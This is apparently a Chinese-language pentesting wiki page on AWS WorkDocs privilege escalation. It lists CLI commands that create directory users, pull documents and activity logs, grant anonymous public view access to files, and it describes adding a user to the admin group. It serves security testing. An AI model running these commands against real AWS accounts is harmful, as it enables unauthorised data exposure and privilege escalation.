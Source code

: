 # AWS - WorkDocs权限提升

## WorkDocs

有关WorkDocs的更多信息，请查看：

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

在指定的目录中创建一个用户，然后您将可以访问WorkDocs和AD。
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

这些文件可能包含敏感信息，请阅读它们：
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

如果您没有读取某个内容的权限，您可以直接授予该权限
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

您可以将用户设置为ZOCALO_ADMIN组中的管理员。\
为此，请按照[https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)中的说明进行操作。

使用该用户登录workdoc，并在`/workdocs/index.html#/admin`中访问管理员面板。

我没有找到通过cli执行此操作的方法。
